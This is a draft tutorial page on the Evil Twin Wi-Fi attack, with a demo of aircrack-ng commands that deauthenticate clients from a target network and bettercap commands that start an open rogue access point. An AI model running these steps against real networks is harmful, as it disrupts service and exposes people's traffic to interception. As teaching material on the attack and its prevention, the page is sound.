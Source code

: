 ```yaml
---
title: "Evil Twin - Draft"
weight: 500
date: 2024-06-15T01:47:46+07:00
---
```


# Evil Twin Attack

- A type of MitM attack
- Description: The attacker sets up a rogue Wi-Fi access point that mimics a legitimate network. Devices connect to it, allowing the attacker to intercept all traffic
- Key Characteristics:
    - The rogue network often has a similar name to the real network (e.g., "FreeWiFi")
    - Victims unknowingly connect to the attacker’s network
- Prevention:
    - Educate users to verify SSIDs before connecting
    - Enable **Mutual Authentication** on enterprise Wi-Fi setups

## Demo

{{<hint danger>}}
**DISCLAIMER**: This demo is for educational purposes only. The techniques should only be tested on systems you own or have explicit permission to analyze. Misuse of this information is unethical, may violate the law, and could lead to serious consequences. The author takes no responsibility for any damages or misuse arising from this content
{{</hint>}}

### Disconnect user from wifi

```sh
# Install the Aircrack-ng suite, which includes airmon-ng
sudo apt install aircrack-ng

# Check wireless interface
iwconfig
# -> E.g output
lo        no wireless extensions.
enp4s0    no wireless extensions.
wlo1      IEEE 802.11  ESSID:"A14-01"  
          Mode:Managed  Frequency:2.417 GHz  Access Point: CC:71:90:62:9E:98   
          Bit Rate=130 Mb/s   Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=62/70  Signal level=-48 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:203   Missed beacon:0
docker0   no wireless extensions.
# -> Your wireless interface is wlo1

# Disconnect the wireless adapter from managing a network
sudo airmon-ng check kill

# Enable monitor mode on your wireless adapter
sudo airmon-ng start wlo1

# Verify
iwconfig
# -> E.g output
lo        no wireless extensions.
enp4s0    no wireless extensions.
docker0   no wireless extensions.
wlo1mon   IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
# -> Your wireless adapter with monitor mode is now wlo1mon

# Start capture packets
sudo airodump-ng wlo1mon

# Find the channel of wifi
sudo aireplay-ng --test wlo1mon
# -> If it fails, your card may not support Packet Injection
# E.g output
12:26:19  Trying broadcast probe requests...
12:26:21  No Answer...
12:26:21  Found 4 APs
12:26:21  Trying directed probe requests...
12:26:21  CC:71:90:62:9E:98 - channel: 2 - 'A14-01'
12:26:27   0/30:   0%
12:26:27  30:4F:75:8F:7F:28 - channel: 2 - 'Dinh Bao'
12:26:33   0/30:   0%
12:26:34  C0:B5:D7:89:36:70 - channel: 8 - 'Do Hai'
12:26:40   0/30:   0%
12:26:40  E8:43:68:6A:3B:88 - channel: 3 - 'Hoang Linh'
12:26:46   0/30:   0%
# -> We will taget 'A14-01' wifi, its channel is 2

# Stop the process capturing packets and start capture packets only on channel 2
sudo airodump-ng --channel 2 wlo1mon

# Deauthenticate target device from wifi by sending deauth packets
sudo aireplay-ng --deauth 100 -a [BSSID] -c [Client_MAC] wlo1mon
# E.g
sudo aireplay-ng --deauth 100 -a CC:71:90:62:9E:98 -c F2:2A:23:9E:54:E2 wlo1mon
# E.g output
12:24:18  Waiting for beacon frame (BSSID: CC:71:90:62:9E:98) on channel 2
12:24:18  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 0|42 ACKs]
12:24:32  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 0|326 ACKs]
12:24:33  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 1|253 ACKs]
# Or omit to target all devices
sudo aireplay-ng --deauth 100 -a CC:71:90:62:9E:98 wlo1mon


```

- Stop capturing packets (exit monitor mode)
```sh
sudo airmon-ng stop wlo1mon
sudo systemctl restart NetworkManager
```

### Create the rogue access point

```sh
sudo apt update
# net-tools include netstat which is used inside bettercap
sudo apt install net-tools
sudo apt install bettercap


# Rogue access point
sudo bettercap -iface wlo1mon

# In bettercap:
set wifi.ap.ssid Banana
set wifi.ap.bssid DE:AD:BE:EF:DE:AD
set wifi.ap.channel 5
set wifi.ap.encryption false
wifi.recon on; wifi.ap

```

## References

- Bettercap: [WiFi](https://www.bettercap.org/modules/wifi/)
- Evilsocket: [Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/) (Feb 13th, 2019)